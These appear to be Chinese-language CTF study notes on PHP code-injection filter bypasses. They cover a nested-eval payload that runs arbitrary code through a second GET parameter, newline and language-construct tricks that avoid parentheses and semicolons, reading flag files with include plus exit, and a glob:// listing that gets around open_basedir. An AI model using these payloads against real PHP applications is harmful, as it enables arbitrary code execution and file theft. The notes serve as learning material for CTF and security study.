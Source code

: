 ### 嵌套绕过

-  用嵌套eval绕过 

```php
c=eval($_GET[1]);&1=phpinfo();
```


   - 后面的1逃逸出去了，可以执行任意命令

### 绕过(

##### %0a

-  %0a表示换行符，可以绕过对括号的限制 

```
include%0aflag.php?>
include '/var/www/html/flag.php'
include'/var/www/html/flag.php'
```

- include后可以没有空格

##### 语言结构

- `echo print issert unset include require`都不需要括号

### ?>绕过分号；

- php的最后一个语句可以没有分号，用?>表示代码结束

### exit()退出绕过replace

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1666858807985-969e82af-ab7f-45f0-b5ee-62a88cfe6576.png#averageHue=%2321201e&clientId=uc84a7769-fc82-4&from=paste&height=311&id=ub8b4f8df&originHeight=622&originWidth=963&originalType=binary&ratio=1&rotation=0&showTitle=false&size=77070&status=done&style=none&taskId=u6bbf8629-5fd3-4d0d-b8de-257fe49d300&title=&width=481.5)

```php
c=include('/flag.txt');exit();
```

### 绕过open_basedir

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1666886609959-55304ba1-e868-41a8-9445-34b09ff89748.png#averageHue=%23f2f1f0&clientId=u885ed144-4531-4&from=paste&height=182&id=udc39b8b0&originHeight=363&originWidth=2292&originalType=binary&ratio=1&rotation=0&showTitle=false&size=91537&status=done&style=none&taskId=u18743aee-de18-4351-b3ad-cf424e3b69b&title=&width=1146)

##### glob伪协议

- 查找匹配的文件模式
- glob伪协议在筛选目录时不受open_basedir制约

```
<?php
c=$a = "glob:///*";//读取/目录下的所有文件
if ($b=opendir($a)){
	while (($file = readdir($b)) !== false ) {
		echo "filename:".$file."<br>" ;
	}
closedir($b);}
exit();
>
```
